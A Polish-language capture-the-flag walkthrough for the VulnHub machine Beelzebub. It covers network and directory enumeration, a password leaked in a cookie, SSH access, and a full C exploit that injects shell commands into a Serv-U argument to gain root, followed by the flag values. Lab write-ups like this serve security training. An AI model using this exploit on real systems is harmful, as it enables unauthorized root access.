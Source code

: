 **CTF - Beelzebub**

`Autor`: adi7312

**Poziom trudności**: łatwy

**Link do maszyny**: [Beelzebub](https://www.vulnhub.com/entry/beelzebub-1,742/).


## **Skanowanie sieci**

**Cel:** Znaleźć IP podatnej maszyny.

W celu znalezienia maszyny *Beelzebub* korzystamy z polecenia:

    netdisocer -r 192.168.138.0/24


![](p/1.png)


**IP Beelzebub'a: 192.168.138.136**


## **Skanowanie portów**

**Cel:** Dokonać enumeracji wersji usług, dowiedzieć się na jakim systemie operacyjnym działa host


    nmap 192.168.138.136 -sV -O -Pn


![](p/2.png)


Jak widzimy host operuje na 2 portach: 22 - ssh, 80 - http.


## **Enumeracja**

Korzystamy z narzędzia *dirb*, wpisujemy polecenie:

    dirb http://192.168.138.136:80/

Wynikiem tego polecenia jest lista plików i folderów które znajdują się w naszym wrażliwym hoście. Przejrzyjmy sobie część tych plików zacznijmy od *index.php* w głównym katalogu.

![](p/3.png)

Wpisując w przeglądarkę *http://192.168.138.136:80/index.php* nie otrzymujemy nic ciekawego, jednak w samym kodzie źródłowym możemy znaleźć podpowiedź.

![](p/4.png)


Zamieńmy zatem wartość *beelzebub* na hash md5.

    echo -n "beelzebub" | md5sum

    Output: d18e1e22becbd915b45e0e655429d487

Spróbujmy teraz przejść na stronę z danym hashem i odziwo nie dostajemy *Not found* tylko *unable to connect* oznacza to, że dany folder istnieje ale nie możemy połączyć sie na daną stronę, ponownie dokonujemy enumeracji.

    dirb http://192.168.138.136/d18e1e22becbd915b45e0e655429d487/


![](p/5.png)


Z powyższych katalogów najbardziej będzie nas interesować *wp-content/uploads*. W przeglądarce wygląda on tak:

![](p/7.png)

Po wejściu w kataolog Talk to VALAK ukazuje nam się strona, wpisujemy tam dowolną nazwę i patrzymy na zakładkę Network w Web Developerze.

![](p/6.png)

W nagłówku znajdował się plik *cookie* ustawiający hasło *M4k3Ad3a1*. Widziliśmy wcześniej że host ma otwarty port ssh, więc połączymy się z naszym hostem przez ssh. Wpisujemy więc polecenie:

    ssh krampus@192.168.138.136

Oraz podajemy zdobyte przed chwilą hasło.

## **Eskalacja uprawnień oraz zdobycie flagi**


![](p/8.png)


Po zalogowaniu się, możemy potwierdzić że jesteśmy użytkownikiem *krampus* poleceniem `whoami`. Następnie używamy polecenia `sudo -l`, jednak nasz użytkownik nie może wykonać żadnego polecenia *sudo*, zatem szukamy wskazówek gdzie indziej. Po wpisaniu polecenia `ls -la` widzimy pewien element nazwany *.Serv-U-Tray.conf*, po krótki researchu dowiedzielismy się że możemy wykorzystać podatność serwera FTP Serv-u-tray do eskalacji uprawnień, tworzymy plik poleceniem: `touch priv_esc.c` oraz edytujemy jego zawartość poleceniem `nano priv_esc.c`. Wpisujemy poniższy kod.

```c
#include <stdio.h>
#include <unistd.h>
#include <errno.h>

int main()
{       
    char *vuln_args[] = {"\" ; id; echo 'opening root shell' ; /bin/sh; \"", "-prepareinstallation", NULL};
    int ret_val = execv("/usr/local/Serv-U/Serv-U", vuln_args);
    // if execv is successful, we won't reach here
    printf("ret val: %d errno: %d\n", ret_val, errno);
    return errno;
}
```

W nastepnej kolejności należy skompilować nasz program, robimy to poleceniem `gcc priv_esc.c`. Kompilator utworzył nam plik *a.out*, nadajemy temu plikowi uprawnienia *executable* poleceniem `chmod +x a.out`. Wykonujemy nasz program poleceniem `./a.out`. Otrzymaliśmy uprawnienia roota.

W celu zdobycia flagi użytkownika wchodzimy na puplit Krampusa i otwieramy flagę *user.txt*.

    cd /home/krampus/Desktop; cat user.txt
    Output: aq12uu909a0q921a2819b05568a992m9


W celu zdobycia flagi *roota* przechodzimy do katalogu */root* i otwieramy flagę.

    cd /root; cat root.txt
    Output: 8955qpasq8qq807879p75e1rr24cr1a5
    
